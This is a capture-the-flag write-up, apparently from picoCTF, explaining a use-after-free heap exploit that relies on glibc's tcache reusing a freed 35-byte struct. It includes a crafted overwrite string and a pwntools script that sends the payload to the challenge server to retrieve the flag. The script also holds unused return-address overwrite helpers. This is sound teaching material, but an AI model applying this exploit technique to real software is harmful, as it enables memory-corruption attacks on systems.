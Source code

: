 ### TCACHE
**TCACHE** or **Thread Local Cache** is a per thread cache implemented for optimization purposes.  
It stores some recently freed chunks of memory before sending them to the global memory free pool so that if the thread requests to allocate a chunk of the same size as one of the stored ones, it will serve that, avoiding the overhead of going further for the allocation.

In our case, if we allocate an object of the same size as `x`, the size of the struct, after freeing it,  then TCACHE should give us the same memory to write on.  
The struct has a total size of 35 bytes (3 character arrays of size 10 and one of 5)  
The flag field we want is the last 5 bytes so our payload will be a string of 30 random characters and `pico` at the end
`AAAAAAAAAABBBBBBBBBBCCCCCCCCCCpico`

To do this I have written the following **Python** script
### Python Script
```python
from pwn import *
import sys

def reverse_str(str):
    chunks = [str[i:i+2] for i in range(0, len(str), 2)]

    chunks.reverse()

    hex_bytes = ['\\x' + chunk for chunk in chunks]
    return ''.join(hex_bytes)


def construct_payload(dist, win_addr, encode=False):
    payload = "A" * dist
    payload+=reverse_str(win_addr)
    if encode:
        return payload.encode().decode('unicode_escape').encode('latin1')
    return payload

def send_to_server(conn: remote):
    conn.sendline(b'5')
    conn.sendline(b'2')
    conn.sendline(b'35')
    conn.sendline(b'AAAAAAAAAABBBBBBBBBBCCCCCCCCCCpico')
    conn.sendline(b'4')
    response=conn.recvall()
    conn.close()
    return response.decode('utf-8', errors='ignore')

def get_flag(output):
    index = output.find("picoCTF{")
    result = output[index:]  # substring from pattern to end
    return result


def remote_server():
    host = 'tethys.picoctf.net'
    port = 53532
    conn = remote(host, port)
    server_output = send_to_server(conn)
    print(get_flag(server_output))


def local():
    p=process("./chall")
    local_output = send_to_server(p)
    print(get_flag(local_output))
```